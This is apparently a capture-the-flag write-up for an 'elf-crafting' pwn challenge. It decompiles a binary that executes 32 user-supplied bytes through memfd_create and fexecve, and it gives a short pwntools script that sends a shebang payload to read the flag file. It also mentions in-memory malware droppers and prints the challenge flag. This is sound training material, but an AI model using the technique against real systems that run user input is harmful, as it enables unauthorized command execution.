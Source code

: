 ## Challenge Description

How well do you understand the ELF file format?

Author: unvariant

Connection info: `nc amt.rs 31178`

## Solution

We were provided with a binary and a libc file. Let's first analyze the binary
using `checksec` and `file`:

![chal](https://www.theflash2k.me/_next/image?url=%2Fstatic%2Fwriteups%2Famateurctf2023%2Fpwn%2Fec1.png&w=1920&q=75)

Now, let's analyze this binary in ghidra and find all the functions

![chal](https://www.theflash2k.me/_next/image?url=%2Fstatic%2Fwriteups%2Famateurctf2023%2Fpwn%2Fec1-1.png&w=256&q=75)

Well, there's only the main function. I've cleaned up the code in ghidra:

```c:main  
int main(int param_1,char **param_2,char **param_3) {  
 int fd;  
 ulong ret;  
 long in_FS_OFFSET;  
 char buffer [40];  
 long canary;  
  
 canary = *(long *)(in_FS_OFFSET + 0x28);  
 setbuf(stdout,(char *)0x0);  
 setbuf(stderr,(char *)0x0);  
 puts("I\'m sure you all enjoy doing shellcode golf problems.");  
 puts("But have you ever tried ELF golfing?");  
 puts("Have fun!");  
 fd = memfd_create("golf",0);  
 if (fd < 0) {  
   perror("failed to execute fd = memfd_create(\"golf\", 0)");  
                   /* WARNING: Subroutine does not return */  
   exit(1);  
 }  
 ret = read(0,buffer,32);  
 if ((int)ret < 0) {  
   perror("failed to execute ok = read(0, buffer, 32)");  
                   /* WARNING: Subroutine does not return */  
   exit(1);  
 }  
 printf("read %d bytes from stdin\n",ret & 0xffffffff);  
 ret = write(fd,buffer,(long)(int)ret);  
 if ((int)ret < 0) {  
   perror("failed to execute ok = write(fd, buffer, ok)");  
                   /* WARNING: Subroutine does not return */  
   exit(1);  
 }  
 printf("wrote %d bytes to file\n",ret & 0xffffffff);  
 fd = fexecve(fd,param_2,param_3);  
 if (fd < 0) {  
   perror("failed to execute fexecve(fd, argv, envp)");  
                   /* WARNING: Subroutine does not return */  
   exit(1);  
 }  
 if (canary != *(long *)(in_FS_OFFSET + 0x28)) {  
                   /* WARNING: Subroutine does not return */  
   __stack_chk_fail();  
 }  
 return 0;  
}  
```

This code consists of two functions that I had of heard of before during my
malware analysis days and were always deemed pretty `sus`.

- memfd_create  
- fexecve

According to the man page's of both:

> memfd_create() creates an anonymous file and returns a file descriptor that
> refers to it. The file behaves like a regular file, and so can be modified,
> truncated, memory-mapped, and so on. However, unlike a regular file, it
> lives in RAM and has a volatile backing storage. Once all references to the
> file are dropped, it is automatically released.

> fexecve() executes the program referred to by the file descriptor fd with
> command-line arguments in argv, and with environment variables in envp. The
> file descriptor fd must refer to an open file. The file offset of the open
> file is set to the beginning of the file (see lseek(2)) before fexecve()
> loads the program, so that the program sees the file contents as if reading
> from the file for the first time.

So, we can see that `memfd_create` creates a file in memory and `fexecve`
executes a program with the file descriptor as the first argument. This means
that we can create a file in memory and then execute it using `fexecve`. This
concept is often used in malware's to execute shellcode in memory and for
`stealthy` dropping. There are a lot of posts explaining the concept in
detail, I'll link some of them at the end of the [writeup](#references).

Now, the main caveat is, what ever's being written to `golf` fd, is being read
from the user, so we control it. The buffer is `32` bytes long meaning we can
simply try and pass something into it and it will work. So, let's try and pass
a simple `/bin/bash` into it and see what happens:

![chal](https://www.theflash2k.me/_next/image?url=%2Fstatic%2Fwriteups%2Famateurctf2023%2Fpwn%2Fec1-2.png&w=750&q=75)

Well, we can see that it's trying to execute the literal string `/bin/bash`
which obviously won't work and hence gives the `exec format error` error. So,
the fix? We need to pass a `shebang` into the file descriptor as that literal
string will actually execute the command that we're trying to execute.

> Shebang is the character sequence consisting of the characters number sign
> and exclamation mark (#!) at the beginning of a script. It is also called
> sha-bang, hashbang, pound-bang, or hash-pling.

So, let's try and pass a bash-shebang into the file descriptor and see what
happens:

![chal](https://www.theflash2k.me/_next/image?url=%2Fstatic%2Fwriteups%2Famateurctf2023%2Fpwn%2Fec1-3.png&w=640&q=75)

Okay, so this proves that we were successful in executing the command. Now,
let's try and run `cat` and get the flag:

![chal](https://www.theflash2k.me/_next/image?url=%2Fstatic%2Fwriteups%2Famateurctf2023%2Fpwn%2Fec1-4.png&w=640&q=75)

Well, that was pretty straight forward. Let's connect to the remote and get
the flag

![chal](https://www.theflash2k.me/_next/image?url=%2Fstatic%2Fwriteups%2Famateurctf2023%2Fpwn%2Fec1-5.png&w=640&q=75)

Writing a basic `exploit.py` for this:

```python:exploit.py  
from pwn import *  
import re

io = remote('amt.rs', 31178)  
io.sendlineafter(b"fun!\n", b"#!/bin/cat flag.txt")  
buf = io.recvall().decode()  
flag = re.findall('amateursCTF{.*?}', buf)[0]  
info(f"Flag: {flag}")  
```

![chal](https://www.theflash2k.me/_next/image?url=%2Fstatic%2Fwriteups%2Famateurctf2023%2Fpwn%2Fec1-6.png&w=750&q=75)

And, we get the flag:  
`amateursCTF{i_th1nk_i_f0rg0t_about_sh3bangs_aaaaaargh}`

> NOTE: The challenge heavily used the word `golf` which relates to `binary-
> golfing`, we'll look into that in elfcrafting-v2

## References

[Linux-Based-IPC-Injection](https://www.aon.com/cyber-
solutions/aon_cyber_labs/linux-based-inter-process-code-injection-without-
ptrace2/)

[In-Memory-ELF-Execution](https://magisterquis.github.io/2018/03/31/in-memory-
only-elf-execution.html)

[Super-Stealthy-Droppers](https://0x00sec.org/t/super-stealthy-droppers/3715)

[Stackoverflow-Question](https://stackoverflow.com/questions/63208333/using-
memfd-create-and-fexecve-to-run-elf-from-memory)

Original writeup
(https://www.theflash2k.me/blog/writeups/amateurctf2023/pwn/elf-crafting-v1).